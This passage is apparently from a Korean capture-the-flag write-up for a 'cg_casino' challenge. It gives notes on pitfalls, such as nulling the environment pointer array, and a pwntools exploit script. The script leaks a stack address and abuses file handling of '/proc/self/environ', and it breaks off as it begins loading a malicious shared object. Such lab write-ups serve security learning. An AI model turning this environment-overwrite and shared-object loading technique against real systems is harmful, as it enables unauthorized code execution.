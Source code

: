__주의할 점4__ <br/>
p.interactive()를 실행하면 프로세스가 출력한 문자열이 다 출력되어 버린다. 따라서 p.recv()로 해당 문자열을 받을 수 없다. 

__주의할 점5__ <br/>
환경 변수 포인터 배열을 "A"같은 값으로 덮어쓰면 자식 프로세스가 해당 주소로 접근하려고 해서 segmentation fault가 뜨는 듯. 따라서 해당 영역을 NULL로 덮어줘야 한다. 

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def put_vou(voucher):
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil(" : ")
	p.sendline(voucher)

def merg_vou(voucher):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil(" : ")
	p.sendline(voucher)

def leak_lotto():
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("=\n")
	p.recvuntil("=\n")
	p.sendline("1")
	p.sendline("2")
	p.sendline("A")
	leak_low=hex(int(p.recvuntil(" :",drop=True)))
	p.recvuntil("\n")
	p.sendline("7")
	p.sendline("A")
	leak_hi=hex(int(p.recvuntil(" :",drop=True)))
	p.recvuntil("\n")
	for i in range(3): p.sendline("7")
	return leak_hi+leak_low[2:]

def jackpot():
	p.recvuntil("> ")
	p.sendline("5")
	p.recvuntil("key\n")
	p.sendline()

file_path="/home/sungyun/round5/cg_casino/share/cg_casino"

#p=process(file_path)
p=remote('127.0.0.1',6677)

put_vou("///////////////proc/self/environ")

stack_leak=int(leak_lotto(),16)
n_vou=stack_leak+0x40
environ=n_vou+0x158
env_len=0xd8a

for i in range(1,17):
	hawe_so=open("./hawe.so",'rb')
```